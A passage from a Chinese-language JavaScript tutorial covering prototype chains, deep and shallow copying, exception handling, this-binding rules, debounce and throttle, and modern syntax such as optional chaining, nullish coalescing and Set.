// 给女人添加一个方法 生孩子
Woman.prototype.baby = function () {
  console.log('宝贝')
}
const red = new Woman()
console.log(red)

// 男人 构造函数 继承 想要继承 Person
function Man() {

}
// 通过原型继承 Person
Man.prototype = new Person()
Man.prototype.constructor = Man
const pink = new Man()
console.log(pink)
```

### 17.6 原型链

基于原型对象的继承使得不同构造函数的原型对象关联在一起，并且这种关联的关系是一种链状的结构，我们将原型对象的链状结构关系称为原型链。



```javascript
// function Object() {}
console.log(Object.prototype)
console.log(Object.prototype.__proto__)

function Person() {

}
const ldh = new Person()
// console.log(ldh.__proto__ === Person.prototype)
// console.log(Person.prototype.__proto__ === Object.prototype)
console.log(ldh instanceof Person)
console.log(ldh instanceof Object)
console.log(ldh instanceof Array)
console.log([1, 2, 3] instanceof Array)
console.log(Array instanceof Object)
```

查找规则：

* ① 当访问一个对象的属性（包括方法）时，首先查找这个对象自身有没有该属性
* ② 如果没有就查找它的原型（也就是 `__proto__` 指向的 `prototype` 原型对象）
* ③ 如果还没有就查找原型对象的原型（Object 的原型对象）
* ④ 依此类推一直找到 Object 为止（null）
* ⑤ `__proto__` 对象原型的意义就在于为对象成员查找机制提供一个方向，或者说一条路线
* ⑥ 可以使用 `instanceof` 运算符检测构造函数的 `prototype` 属性是否出现在某个实例对象的原型链上

和「属性到底在不在这个对象上」有关的判断一共有四个，容易混，放在一起对照一下：

```javascript
const obj = { name: 'why' }
const info = Object.create(obj) // 创建一个新对象，并把它的原型指向 obj

// in / for...in：对象自己和原型链上都能查到
console.log('name' in info) // true
for (const key in info) {
  console.log(key) // name
}

// hasOwnProperty：只看对象自己的属性
console.log(info.hasOwnProperty('name')) // false

// isPrototypeOf：对象之间的判断，自己是不是参数原型链上的一环
console.log(obj.isPrototypeOf(info)) // true

// instanceof：检测构造函数的 prototype 是否出现在实例的原型链上
console.log(info instanceof Object) // true
console.log(info instanceof obj) // TypeError：右侧必须是构造函数，不能是普通对象
```

> 提示
>
> `obj.isPrototypeOf(info)` 判断的是「`obj` 在不在 `info` 的原型链上」；`info instanceof obj` 报错是因为 `instanceof` 右边必须是**函数**（它会去读右边的 `prototype`）。所以：**拿构造函数判断实例**用 `instanceof`，**拿普通对象判断原型关系**用 `isPrototypeOf`。判断自有属性优先用 19.3.3 讲的 `Object.hasOwn`。

<a id="ch18"></a>
## 18. 深浅拷贝与异常处理

> 目标：了解 JavaScript 中程序异常处理的方法，知道动态指定函数 this 值的方法，提升代码运行的健壮性。

### 18.1 深浅拷贝

首先浅拷贝和深拷贝只针对引用类型。

#### 18.1.1 浅拷贝

浅拷贝：拷贝的是地址。

常见方法：

* 拷贝对象：`Object.assign()` / 展开运算符 `{...obj}` 拷贝对象
* 拷贝数组：`Array.prototype.concat()` 或者 `[...arr]`

> 注意
>
> 如果是简单数据类型拷贝值，引用数据类型拷贝的是地址（简单理解：如果是单层对象，没问题，如果有多层就有问题）。

#### 18.1.2 深拷贝

深拷贝：拷贝的是对象，不是地址。

常见方法：

* 通过递归实现深拷贝
* `lodash/cloneDeep`
* 通过 `JSON.stringify()` 实现

**递归实现深拷贝**

函数递归：如果一个函数在内部可以调用其本身，那么这个函数就是递归函数。

* 简单理解：函数内部自己调用自己，这个函数就是递归函数
* 递归函数的作用和循环效果类似
* 由于递归很容易发生“栈溢出”错误（stack overflow），所以必须要加退出条件 `return`



```javascript
const obj = {
  uname: 'pink',
  age: 18,
  hobby: ['乒乓球', '足球'],
  family: {
    baby: '小pink'
  }
}
const o = {}
// 拷贝函数
function deepCopy(newObj, oldObj) {
  debugger
  for (let k in oldObj) {
    // 处理数组的问题  一定先写数组 再写 对象 不能颠倒
    if (oldObj[k] instanceof Array) {
      newObj[k] = []
      // newObj[k] 接收 []  hobby
      // oldObj[k]  ['乒乓球', '足球']
      deepCopy(newObj[k], oldObj[k])
    } else if (oldObj[k] instanceof Object) {
      newObj[k] = {}
      deepCopy(newObj[k], oldObj[k])
    } else {
      // k 属性名 uname age    oldObj[k] 属性值  18
      // newObj[k] === o.uname  给新对象添加属性
      newObj[k] = oldObj[k]
    }
  }
}
deepCopy(o, obj) // 函数调用 两个参数 o 新对象 obj 旧对象
console.log(o)
o.age = 20
o.hobby[0] = '篮球'
o.family.baby = '老pink'
console.log(obj)
```

**js 库 lodash 里面的 cloneDeep 内部实现了深拷贝**

```html
<body>
  <!-- 先引用 -->
  <script src="./lodash.min.js"></script>
  <script>
    const obj = {
      uname: 'pink',
      age: 18,
      hobby: ['乒乓球', '足球'],
      family: {
        baby: '小pink'
      }
    }
    const o = _.cloneDeep(obj)
    console.log(o)
    o.family.baby = '老pink'
    console.log(obj)
  </script>
</body>
```

**JSON 序列化**

```javascript
const obj = {
  uname: 'pink',
  age: 18,
  hobby: ['乒乓球', '足球'],
  family: {
    baby: '小pink'
  }
}
// 把对象转换为 JSON 字符串
// console.log(JSON.stringify(obj))
const o = JSON.parse(JSON.stringify(obj))
console.log(o)
o.family.baby = '123'
console.log(obj)
```

### 18.2 异常处理

异常处理是指预估代码执行过程中可能发生的错误，然后最大程度的避免错误的发生导致整个程序无法继续运行。

#### 18.2.1 throw

```javascript
function counter(x, y) {
  if (!x || !y) {
    // throw '参数不能为空!';
    throw new Error('参数不能为空!')
  }

  return x + y
}

counter()
```

总结：

* `throw` 抛出异常信息，程序也会终止执行
* `throw` 后面跟的是错误提示信息
* `Error` 对象配合 `throw` 使用，能够设置更详细的错误信息

#### 18.2.2 用 throw 主动报错

开发中会把一些功能封装成工具函数给别人用，别人传进来的参数不一定合法，所以函数内部要对参数做**验证**。

不少人的写法是验证不通过就 `return`：

```javascript
function counter(x, y) {
  if (!x || !y) {
    return // 参数不对就不往下走了
  }
  return x + y
}
```

`return` 有一个很大的弊端：**调用者不知道是「函数内部没有正常执行」，还是「执行结果本来就是一个 undefined」**，最后往往拿着 undefined 继续往下算，错得更远。

正确的做法是：如果没有通过验证，就应该**让外界知道函数内部报错了**，也就是用 `throw` 抛出一个异常。

#### 18.2.3 throw 可以跟上什么

`throw` 语句用于抛出用户自定义的异常，语法上就是在 `throw` 后面跟上一个表达式来表示具体的异常信息：

```javascript
throw expression
```

这个表达式可以是：

* 基本数据类型：比如 `number`、`string`、`boolean`
* 对象类型：对象类型可以包含更多的信息

每次都写一个长长的对象有点麻烦，可以创建一个专门的错误类（`class` 语法见 19.10）：

```javascript
class HYError {
  constructor(errCode, errMessage) {
    this.errCode = errCode
    this.errMessage = errMessage
  }
}
```

> 注意
>
> 遇到 `throw` 语句时，**当前函数的执行会被立刻停止**（`throw` 后面的语句不会执行）。异常要么在这里被处理，要么一路往上传 —— 这就是下一小节要讲的 18.2.4 异常传递。

#### 18.2.4 异常传递与 Error 类型

JavaScript 已经给我们提供了一个 `Error` 类，可以直接创建这个类的对象：

```javascript
function foo() {
  throw new Error('error message')
}
```

`Error` 实例上有三个常用属性：

* `message`：创建 `Error` 对象时传入的信息
* `name`：`Error` 的名称，通常和类的名称一致（普通 `Error` 就是 `'Error'`）
* `stack`：整个 `Error` 的错误信息，**包含函数的调用栈**；当我们直接打印 `Error` 对象时，打印出来的就是 `stack`

`Error` 还有一些自己的子类，用来表示不同类型的错误：

* `RangeError`：下标值越界时使用的错误类型
* `SyntaxError`：解析语法错误时使用的错误类型
* `TypeError`：出现类型错误时使用的错误类型

异常如果**没有被处理**，会继续传递给调用它的那个函数，一层一层往上：

```javascript
function foo() {
  throw 'coderwhy error message'
}

function bar() {
  foo() // bar 拿到了这个异常，但没有处理，继续往上传
}

function test() {
  bar() // test 也没有处理，继续往上传
}

test() // 传到全局的代码逻辑中依然没有处理 → 程序报错并终止
```

* 调用一个函数时，如果这个函数抛出了异常，而我们**没有对这个异常进行处理**，异常会继续传递到上一个函数调用中
* 如果到了最顶层（全局）的代码中依然没有处理，程序就会**报错并且终止运行**，后续的代码都不会再执行了
* 想要拦下异常，就要用下一小节的 `try ... catch` 在某个调用层级上把它接住

#### 18.2.5 try ... catch

```javascript
function foo() {
  try {
    // 查找 DOM 节点
    const p = document.querySelector('.p')
    p.style.color = 'red'
  } catch (error) {
    // try 代码段中执行有错误时，会执行 catch 代码段
    // 查看错误信息
    console.log(error.message)
    // 终止代码继续执行
    return
  } finally {
    alert('执行')
  }
  console.log('如果出现错误，我的语句不会执行')
}
foo()
```

总结：

* `try...catch` 用于捕获错误信息
* 将预估可能发生错误的代码写在 `try` 代码段中
* 如果 `try` 代码段中出现错误后，会执行 `catch` 代码段，并截获到错误信息

#### 18.2.6 debugger

`debugger` 相当于断点调试。

### 18.3 处理 this

`this` 是 JavaScript 最具“魅惑”的知识点，不同的应用场合 `this` 的取值可能会有意想不到的结果。

#### 18.3.1 普通函数

**普通函数**的调用方式决定了 `this` 的值，即【谁调用 `this` 的值指向谁】。

```javascript
// 普通函数
function sayHi() {
  console.log(this)
}
// 函数表达式
const sayHello = function () {
  console.log(this)
}
// 函数的调用方式决定了 this 的值
sayHi() // window
window.sayHi()

// 普通对象
const user = {
  name: '小明',
  walk: function () {
    console.log(this)
  }
}
// 动态为 user 添加方法
user.sayHi = sayHi
user.sayHello = sayHello
// 函数调用方式，决定了 this 的值
user.sayHi()
user.sayHello()
```

> 注意
>
> 普通函数没有明确调用者时 `this` 值为 `window`，严格模式下没有调用者时 `this` 的值为 `undefined`。

#### 18.3.2 箭头函数

**箭头函数**中的 `this` 与普通函数完全不同，也不受调用方式的影响，事实上箭头函数中并不存在 `this`！箭头函数中访问的 `this` 不过是箭头函数所在作用域的 `this` 变量。

```javascript
console.log(this) // 此处为 window

// 箭头函数
const sayHi = function () {
  console.log(this) // 该箭头函数中的 this 与函数声明环境中 this 一致
}
// 普通对象
const user = {
  name: '小明',
  // 该箭头函数中的 this 与函数声明环境中 this 一致
  walk: () => {
    console.log(this)
  },

  sleep: function () {
    let str = 'hello'
    console.log(this)
    let fn = () => {
      console.log(str)
      console.log(this) // 该箭头函数中的 this 与 sleep 中的 this 一致
    }
    // 调用箭头函数
    fn()
  }
}

// 动态添加方法
user.sayHi = sayHi

// 函数调用
user.sayHi()
user.sleep()
user.walk()
```

在开发中【使用箭头函数前需要考虑函数中 `this` 的值】，**事件回调函数**使用箭头函数时，`this` 为全局的 `window`，因此 DOM 事件回调函数不推荐使用箭头函数。

```javascript
// DOM 节点
const btn = document.querySelector('.btn')
// 箭头函数 此时 this 指向了 window
btn.addEventListener('click', () => {
  console.log(this)
})
// 普通函数 此时 this 指向了 DOM 对象
btn.addEventListener('click', function () {
  console.log(this)
})
```

同样由于箭头函数 `this` 的原因，**基于原型的面向对象也不推荐采用箭头函数**。

```javascript
function Person() {
}
// 原型对象上添加了箭头函数
Person.prototype.walk = () => {
  console.log('人都要走路...')
  console.log(this) // window
}
const p1 = new Person()
p1.walk()
```

#### 18.3.3 改变 this 指向

JavaScript 中允许指定函数中 `this` 的指向，有 3 个方法可以动态指定普通函数中 `this` 的指向。

**call**

```javascript
// 普通函数
function sayHi() {
  console.log(this)
}

let user = {
  name: '小明',
  age: 18
}

let student = {
  name: '小红',
  age: 16
}

// 调用函数并指定 this 的值
sayHi.call(user) // this 值为 user
sayHi.call(student) // this 值为 student

// 求和函数
function counter(x, y) {
  return x + y
}

// 调用 counter 函数，并传入参数
let result = counter.call(null, 5, 10)
console.log(result)
```

总结：

* `call` 方法能够在调用函数的同时指定 `this` 的值
* 使用 `call` 方法调用函数时，第 1 个参数为 `this` 指定的值
* `call` 方法的其余参数会依次自动传入函数作为函数的参数

**apply**

```javascript
// 普通函数
function sayHi() {
  console.log(this)
}

let user = {
  name: '小明',
  age: 18
}

// 调用函数并指定 this 的值
sayHi.apply(user) // this 值为 user

// 求和函数
function counter(x, y) {
  return x + y
}
// 调用 counter 函数，并传入参数
let result = counter.apply(null, [5, 10])
console.log(result)
```

总结：

* `apply` 方法能够在调用函数的同时指定 `this` 的值
* 使用 `apply` 方法调用函数时，第 1 个参数为 `this` 指定的值
* `apply` 方法第 2 个参数为数组，数组的单元值依次自动传入函数作为函数的参数

**bind**

```javascript
// 普通函数
function sayHi() {
  console.log(this)
}
let user = {
  name: '小明',
  age: 18
}
// 调用 bind 指定 this 的值
let sayHello = sayHi.bind(user)
// 调用使用 bind 创建的新函数
sayHello()
```

> 注意
>
> `bind` 方法并不会调用函数，而是创建一个指定了 `this` 值的新函数，与原函数的唯一的变化是改变了 `this` 的值。

### 18.4 this 的绑定规则

18.3.1 说过「谁调用 `this` 就指向谁」，这是最直观的一条，但只靠这句话解释不了全部情况。这一节把 `this` 的取值规则完整过一遍。

#### 18.4.1 为什么需要 this

同一个对象，方法里写法不同，效果差别很大：

```javascript
// 写法一：把对象名写死在方法里
const obj = {
  name: 'why',
  running: function () {
    console.log(obj.name + ' running')
  }
}

// 写法二：用 this 表示「当前调用我的那个对象」
const obj2 = {
  name: 'why',
  running: function () {
    console.log(this.name + ' running')
  }
}
```

写法一在对象**改了名字**、或者同一个方法要被**多个对象共用**的时候就出错了 —— 方法里写死的 `obj` 指的是某个具体对象。`this` 的意义就是让方法内部拿到「谁在调用我」，也就是**在实例方法中访问当前对象**。

#### 18.4.2 this 在哪里

* 在全局作用域下（浏览器中），`this` 指向 `window`
* 但开发中很少直接在全局作用域下使用 `this`，通常都是在函数中使用

```javascript
console.log(this) // window

var name = 'why'
console.log(this.name) // why   var 声明的变量会挂到 window 上
console.log(window.name) // why
```

> 注意
>
> 只有 `var` 声明的全局变量才会挂到 `window` 上（第 2 章讲过 `var` 与 `const` / `let` 的区别），换成 `const` / `let` 之后 `this.name` 是 `undefined`。

所有函数在被调用时，都会创建一个**执行上下文**：

* 这个上下文中记录着函数的调用栈、AO 对象等
* `this` 也是其中的一条记录

也就是说，`this` 的值不是写函数时定下来的，而是**调用函数时**由 JavaScript 决定的。

#### 18.4.3 一个函数，三种调用结果

```javascript
// 定义一个函数
function foo() {
  console.log(this)
}

// 调用方式一：直接调用
foo() // window

// 调用方式二：把 foo 放到一个对象中，再调用
const obj = {
  name: 'why',
  foo: foo
}
obj.foo() // obj 对象

// 调用方式三：通过 call / apply 调用
foo.call('abc') // String {'abc'} 对象
```

同样一个函数，三种调用方式产生了三种不同的结果，可以得出几条结论：

* 函数在调用时，JavaScript 会默认给 `this` 绑定一个值
* `this` 的绑定和**定义的位置（编写的位置）没有关系**
* `this` 的绑定和**调用方式以及调用的位置有关系**
* `this` 是在**运行时**被绑定的

至于具体怎么绑，一共有四条规则：默认绑定、隐式绑定、显式绑定、new 绑定。

#### 18.4.4 规则一：默认绑定

**独立函数调用** —— 可以理解成「函数没有被绑定到某个对象上进行调用」，这时 `this` 指向全局对象 `window`：

```javascript
function foo() {
  console.log(this) // window
}

foo()
```

下面几种常见写法都属于默认绑定：

```javascript
// 案例一：函数套函数，内层的调用依然是独立调用
function test1() {
  console.log(this) // window
  test2()
}
function test2() {
  console.log(this) // window
  test3()
}
function test3() {
  console.log(this) // window
}
test1()

// 案例二：把对象里的方法「拿出来」单独调用
function foo2(func) {
  func() // 这里的调用位置也是独立调用
}

const obj = {
  name: 'why',
  bar: function () {
    console.log(this) // window
  }
}
foo2(obj.bar) // 传过去的是函数本身，和 obj 已经没有关系了
```

> 注意
>
> 严格模式下独立调用时 `this` 是 `undefined`（见 18.3.1 的注意）。案例二这种「方法被拿出来当参数传走」的写法，是实际开发中最常见的 `this` 踩坑点。

#### 18.4.5 规则二：隐式绑定

另一种比较常见的调用方式是通过某个对象调用，也就是调用位置中是通过某个对象发起的函数调用 —— 这时 `this` 指向那个对象，这就是 18.3.1 说的「谁调用指向谁」：

```javascript
function foo() {
  console.log(this)
}

const obj = { name: 'why', foo: foo }
obj.foo() // obj 对象
```

对象里再套对象的时候，看的是**最后调用它的那个对象**：

```javascript
const obj1 = { name: 'obj1', foo: foo }
const obj2 = { name: 'obj2', obj1: obj1 }

obj2.obj1.foo() // obj1 对象，不是 obj2
```

但如果把这个方法赋值给别的变量，隐式绑定就丢了：

```javascript
// 把 obj1 的 foo 赋值给 bar
const bar = obj1.foo
bar() // window  又变回默认绑定了
```

* 隐式绑定的前提是：**必须在调用的对象内部有一个对函数的引用**（比如一个属性）
* 如果没有这样的引用，在进行调用时，会报找不到该函数的错误；正是通过这个引用，间接地把 `this` 绑定到了这个对象上
* 一旦这个引用被断开（赋值给别的变量、当参数传出去），就退回默认绑定

#### 18.4.6 规则三：显式绑定

如果我们不希望在对象内部包含这个函数的引用，同时又希望在这个对象上进行强制调用，就可以用 `call` 和 `apply`：

* JavaScript 所有的函数都可以使用 `call` 和 `apply` 方法（和 `Prototype` 有关）
* 这两个函数第一个参数都是相同的，都要求是一个**对象**，这个对象的作用就是**给 `this` 准备的**
* 两者的区别在后面参数上：`apply` 传数组，`call` 传参数列表

```javascript
function foo() {
  console.log(this)
}

foo.call(window) // window
foo.call({ name: 'why' }) // { name: 'why' }
foo.call(123) // Number 对象，里面存放着 123
```

上面这个过程是我们**明确地**把 `this` 绑定到了传入的对象上，所以称为**显式绑定**。

如果希望一个函数**总是**被显示地绑定到一个对象上，而不是调用时临时指定，可以用 `bind`：

```javascript
function foo() {
  console.log(this)
}

const obj = { name: 'why' }

const bar = foo.bind(obj) // bind 返回一个新函数，this 已经固定为 obj
bar() // obj 对象
```

三个方法的详细用法和区别见 18.3.3。

#### 18.4.7 规则四：new 绑定

JavaScript 中的函数可以当作一个类的构造函数来使用，也就是配合 `new` 关键字调用。使用 `new` 调用函数时，会执行如下操作：

* ① 创建一个全新的对象
* ② 这个新对象会被执行 `prototype` 连接（也就是它的 `__proto__` 指向构造函数的 `prototype`，见第 17 章）
* ③ 这个新对象会绑定到函数调用的 `this` 上 —— **`this` 的绑定在这一步完成**
* ④ 如果函数没有返回其他对象，表达式会返回这个新对象

```javascript
function Person(name) {
  this.name = name // 这里的 this 就是下面新建出来的 p
}

const p = new Person('why')
console.log(p.name) // why
```

#### 18.4.8 规则的优先级

四条规则如果一个调用位置同时应用了多条，谁的优先级更高呢？

* **默认绑定的优先级最低** —— 存在其他规则时，就会通过其他规则的方式来绑定 `this`，所以默认绑定毫无疑问是最低的
* **显示绑定的优先级高于隐式绑定** —— `obj.foo.call(other)` 时 `this` 是 `other`，不是 `obj`
* **new 绑定的优先级高于隐式绑定**
* **new 绑定的优先级高于 bind** —— `new` 绑定和 `call` / `apply` 是不允许同时使用的，所以这两者之间不存在谁的优先级更高；但 `new` 可以和 `bind` 一起使用（`new (foo.bind(obj))()`），这种写法下 `this` 是新创建的对象

> 经验
>
> 实际判断时按这个顺序扫一遍就够了：**先用 `new` 了吗？** → 用了就是新创建的对象；**用 `call` / `apply` / `bind` 了吗？** → 用了就是传入的那个对象；**是通过 `对象.方法()` 调用的吗？** → 是就是那个对象；**都不是** → `window`（严格模式下是 `undefined`）。另外箭头函数不参与这套规则，它的 `this` 看定义位置（18.3.2）。

### 18.5 防抖节流

* 防抖（debounce）：所谓防抖，就是指触发事件后在 n 秒内函数只能执行一次，如果在 n 秒内又触发了事件，则会重新计算函数执行时间
* 节流（throttle）：所谓节流，就是指连续触发事件但是在 n 秒中只执行一次函数

以鼠标移动为例，鼠标移动事件在移动的过程中会持续触发，如果回调函数中存在大量 DOM 操作，页面可能会卡顿：

```javascript
const box = document.querySelector('.box')
let i = 1

function mouseMove() {
  box.innerHTML = ++i
}

// 每次鼠标移动都会执行，触发非常频繁
box.addEventListener('mousemove', mouseMove)
```

手写一个防抖函数：

```javascript
function debounce(fn, t) {
  let timeId
  return function () {
    // 如果还有定时器没有执行，先清除，重新计时
    if (timeId) clearTimeout(timeId)
    timeId = setTimeout(function () {
      fn()
    }, t)
  }
}

box.addEventListener('mousemove', debounce(mouseMove, 200))
```

也可以直接使用 lodash 库提供的 `_.throttle` 和 `_.debounce`：

```html
<script src="https://cdn.jsdelivr.net/npm/lodash@4.17.21/lodash.min.js"></script>
<script>
  // 节流的写法
  box.addEventListener('mousemove', _.throttle(mouseMove, 500))
  // 防抖的写法
  box.addEventListener('mousemove', _.debounce(mouseMove, 500))
</script>
```

> 经验
>
> 防抖适合搜索框输入、表单验证等只关心最后一次结果的场景；节流适合滚动、鼠标移动等需要按固定频率执行的场景。

---

# 第四部分 · 课外常用扩展

> 这一部分是课堂之外、但日常写代码几乎离不开的现代写法。前面的 18 章依然与课堂知识点一一对应，这里的内容单独成一部分，先有个印象，用到时再回来查。

<a id="ch19"></a>
## 19. 课外常用扩展

> 目标：认识现代 JavaScript 中常用的简写和进阶 API，能读懂别人的代码，也能把自己的代码写得更短、更稳。

### 19.1 可选链 `?.`

#### 19.1.1 为什么需要它

课堂上学过：对象里没有的属性，取值时不会报错，只会得到 `undefined`。

```javascript
const user = { name: '小明' }
console.log(user.job) // undefined
```

但如果**在 `undefined` 上继续往深里取属性**，程序就会直接报错，后面的代码全部不再执行：

```javascript
console.log(user.job.salary) // 报错：Cannot read properties of undefined (reading 'salary')
```

后端返回的数据里，某一层是 `null` 或 `undefined` 是很常见的事（比如用户还没填收货地址），可选链 `?.` 解决的就是这个问题。

#### 19.1.2 三种写法

| 写法 | 用途 | 举例 |
| --- | --- | --- |
| `obj?.属性` | 取不一定存在的属性 | `user.address?.city` |
| `obj?.[表达式]` | 取不确定的动态属性或数组单元 | `arr?.[0]`、`obj?.[key]` |
| `fn?.()` | 调用可能不存在的函数 | `callback?.()` |

```javascript
const user = {
  name: '小明',
  address: { city: '北京' },
  sayHi() {
    console.log('hi')
  }
}

// 1. 属性：中间某一层不存在时，返回 undefined 而不是报错
console.log(user.address?.city) // 北京
console.log(user.job?.salary) // undefined
console.log(user.address?.street?.name) // undefined，可以一直往深里连写

// 2. 动态属性名和数组下标
const key = 'name'
console.log(user?.[key]) // 小明
console.log([1, 2, 3]?.[0]) // 1

// 3. 函数调用
const opts = {}
opts.onClick?.() // 没传 onClick 也不会报错
```

#### 19.1.3 使用细节

* **短路**：`?.` 左边是 `null` 或 `undefined` 时，右边的部分根本不会执行
  ```javascript
  const obj = null
  console.log(obj?.a.b.c) // undefined  ← 整条链直接短路，不会报错
  ```
* 不能用在赋值左边，`user?.name = '小红'` 会报语法错误。要给可能为空的对象赋值，得先判断
  ```javascript
  if (user) {
    user.name = '小红'
  }
  ```
* 只判断 `null` 和 `undefined`，其他假值（`0`、`''`、`false`）会继续往后取值

> 注意
>
> 不是所有地方都该加 `?.`。数据确定存在时写 `user.name` 更清楚，只有在「这层可能没有」时才加，否则反而会把真正的错误藏起来。

### 19.2 空值合并 `??` 与逻辑赋值

#### 19.2.1 `??` 和 `||` 的区别

课堂上学过用 `||` 设置默认值，`const name = input || '匿名'`。它的规则是「左边是假值就取右边」，而 `0`、`''`、`false` 也都是假值，所以会把**本来就合法的数据也换成默认值**：

```javascript
// 用户考了 0 分，也会被换成 60
const score = 0
console.log(score || 60) // 60  ← 不是我们想要的
```

`??` 只在左边是 `null` 或 `undefined` 时才取右边的值：

```javascript
console.log(0 ?? 100) // 0
console.log('' ?? '默认值') // 空字符串
console.log(false ?? true) // false
console.log(NaN ?? 0) // NaN
console.log(null ?? '默认值') // 默认值
console.log(undefined ?? '默认值') // 默认值
```

> 经验
>
> 数字、布尔、空字符串可能是合法取值的场景（分数、开关、备注），设默认值要用 `??`；只有业务上约定了「空字符串就算没填」时，才用 `||`。

> 注意
>
> `??` 不能和 `||`、`&&` 不加括号地混用，`a ?? b || c` 会直接报语法错误，必须写成 `(a ?? b) || c`。

#### 19.2.2 `??=`、`||=`、`&&=` 逻辑赋值

三个逻辑赋值运算符，只有左边满足条件时才赋值：

```javascript
let a = null
a ??= '默认值' // a 是 null，赋值
console.log(a) // 默认值

let b = 0
b ??= 100 // b 不是 null / undefined，不赋值
console.log(b) // 0

let c = ''
c ||= '空的时候才赋值'
console.log(c) // 空的时候才赋值

const user = { name: '小明' }
user.name &&= user.name + '老师' // 左边为真才赋值
console.log(user.name) // 小明老师
```

* `a ??= b` 等价于 `a ?? (a = b)`
* `a ||= b` 等价于 `a || (a = b)`
* `a &&= b` 等价于 `a && (a = b)`
* 和 `+=` 一样，左边必须是变量或属性，不能是表达式

### 19.3 Object 静态方法补充

课上讲了 `Object.keys` 和 `Object.values`，这里补齐常用的几个。

#### 19.3.1 `keys` / `values` / `entries` / `fromEntries`

```javascript
const user = { name: '小明', age: 18, city: '北京' }

console.log(Object.keys(user)) // ['name', 'age', 'city']
console.log(Object.values(user)) // ['小明', 18, '北京']
console.log(Object.entries(user)) // [['name', '小明'], ['age', 18], ['city', '北京']]

// entries 的每一项是一个 [键, 值] 数组，配合解构遍历对象最方便
for (const [key, value] of Object.entries(user)) {
  console.log(key, value)
}
```

`Object.fromEntries` 是 `entries` 的反操作，把 `[键, 值]` 数组还原成对象。它和 `filter` 配合，可以「挑出需要的属性」：

```javascript
const obj = { a: 1, b: 2, c: 3 }

// 只要值大于 1 的属性
const filtered = Object.fromEntries(
  Object.entries(obj).filter(([key, value]) => value > 1)
)
console.log(filtered) // { b: 2, c: 3 }
```

* 这三个方法都只取**可枚举的自有属性**，原型上的属性不会出现
* 顺序就是对象里属性书写的顺序，但**纯数字的键会被排到最前面，并按大小排序**
  ```javascript
  console.log(Object.keys({ b: 1, 2: 2, a: 3 })) // ['2', 'b', 'a']
  ```

#### 19.3.2 `Object.assign` 与 `Object.freeze`

`Object.assign(目标对象, 源1, 源2, ...)` 把后面对象的属性复制到第一个对象上，返回第一个对象（课上讲的浅拷贝用的就是它）：

```javascript
const target = { a: 1 }
const source = { b: 2, a: 3 }

console.log(Object.assign(target, source)) // { a: 3, b: 2 }  ← 后面的覆盖前面的
console.log(target) // { a: 3, b: 2 }  ← 目标对象被改了

// 常用写法：合并到一个空对象上，不修改原对象
const merged = Object.assign({}, target, { c: 4 })
console.log(merged) // { a: 3, b: 2, c: 4 }
console.log(target) // { a: 3, b: 2 }
```

> 注意
>
> `Object.assign` 是**浅拷贝**：嵌套的对象/数组依然是同一个引用（第 18 章讲过），要互不影响还得深拷贝。

`Object.freeze(obj)` 冻结对象，不能新增、删除、修改属性：

```javascript
const config = Object.freeze({ baseURL: 'http://api.demo.com' })
config.baseURL = 'http://其他地址' // 改不动，非严格模式下静默失败

console.log(config.baseURL) // http://api.demo.com
console.log(Object.isFrozen(config)) // true
```

> 提示
>
> `Object.freeze` 也是**浅冻结**，嵌套的对象依然可以被修改。

#### 19.3.3 判断属性是否存在：`in` 与 `Object.hasOwn`

```javascript
const user = { name: '小明' }

console.log('name' in user) // true
console.log('toString' in user) // true  ← in 会顺着原型链找，几乎每个对象都有 toString

console.log(Object.hasOwn(user, 'name')) // true
console.log(Object.hasOwn(user, 'toString')) // false  ← 只看对象自己有没有
```

* `in` 判断的是**整条原型链上有没有**
* `Object.hasOwn(对象, 属性名)` 只看自有属性，比老写法 `user.hasOwnProperty('name')` 更安全（对象自己可能把 `hasOwnProperty` 覆盖掉）

### 19.4 Set

ES6 之前，我们存储数据的结构主要有两种：数组、对象。ES6 中新增了另外两种数据结构：`Set`、`Map`，以及它们的另外两种形式 `WeakSet`、`WeakMap`。

`Set` 可以用来保存数据，类似于数组，但区别是**元素不能重复**，并且创建 `Set` 需要通过 `Set` 构造函数（暂时没有字面量创建的方式）。

> 提示
>
> `WeakSet` / `WeakMap` 与 `Set` / `Map` 的区别是：成员**只能是对象**、持有的是**弱引用**（不阻止垃圾回收）、**不能遍历**也没有 `size`。它们主要用于「给对象挂一些附属数据，又不想因此让对象无法回收」的场景，日常业务代码里遇到得不多。

#### 19.4.1 创建与增删查

`Set` 是成员的集合，成员**不会重复**。

```javascript
const s = new Set() // 空集合
const s2 = new Set([1, 2, 2, 3]) // 传入数组等可迭代对象，重复的会被自动去掉
console.log([...s2]) // [1, 2, 3]

s.add(1) // 添加成员，返回集合本身，可以接着 .add() 链式调用
s.add(2).add(3)
console.log(s.has(1)) // true  判断是否包含某个成员
console.log(s.size) // 3  成员个数
s.delete(1) // 删除成员，返回布尔值
s.clear() // 清空
```

* `size` 是**属性**，写成 `s.size`，不是 `s.size()`
* 重复添加同一个值不会报错，也不会增加个数
* 对象按**引用**去重，两个内容一样但引用不同的对象不会被当成重复
  ```javascript
